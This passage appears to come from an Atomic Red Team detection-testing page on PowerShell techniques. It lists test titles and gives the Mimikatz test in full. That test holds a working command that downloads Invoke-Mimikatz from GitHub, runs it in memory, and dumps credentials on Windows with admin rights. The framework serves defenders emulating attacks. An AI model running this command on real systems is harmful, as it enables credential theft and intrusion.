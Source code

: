 - [Atomic Test #12 - PowerShell Downgrade Attack](#atomic-test-12---powershell-downgrade-attack)

- [Atomic Test #13 - NTFS Alternate Data Stream Access](#atomic-test-13---ntfs-alternate-data-stream-access)

- [Atomic Test #14 - PowerShell Session Creation and Use](#atomic-test-14---powershell-session-creation-and-use)

- [Atomic Test #15 - ATHPowerShellCommandLineParameter -Command parameter variations](#atomic-test-15---athpowershellcommandlineparameter--command-parameter-variations)

- [Atomic Test #16 - ATHPowerShellCommandLineParameter -Command parameter variations with encoded arguments](#atomic-test-16---athpowershellcommandlineparameter--command-parameter-variations-with-encoded-arguments)

- [Atomic Test #17 - ATHPowerShellCommandLineParameter -EncodedCommand parameter variations](#atomic-test-17---athpowershellcommandlineparameter--encodedcommand-parameter-variations)

- [Atomic Test #18 - ATHPowerShellCommandLineParameter -EncodedCommand parameter variations with encoded arguments](#atomic-test-18---athpowershellcommandlineparameter--encodedcommand-parameter-variations-with-encoded-arguments)

- [Atomic Test #19 - PowerShell Command Execution](#atomic-test-19---powershell-command-execution)

- [Atomic Test #20 - PowerShell Invoke Known Malicious Cmdlets](#atomic-test-20---powershell-invoke-known-malicious-cmdlets)

- [Atomic Test #21 - PowerUp Invoke-AllChecks](#atomic-test-21---powerup-invoke-allchecks)

- [Atomic Test #22 - Abuse Nslookup with DNS Records](#atomic-test-22---abuse-nslookup-with-dns-records)

<br/>

## Atomic Test #1 - Mimikatz

Download Mimikatz and dump credentials. Upon execution, mimikatz dump details and password hashes will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** f3132740-55bc-48c4-bcc0-758a459cd027

#### Inputs:

| Name   | Description  | Type | Default Value                                                                                                                           |
| ------ | ------------ | ---- | --------------------------------------------------------------------------------------------------------------------------------------- |
| mimurl | Mimikatz url | url  | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1 |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```

<br/>
<br/>
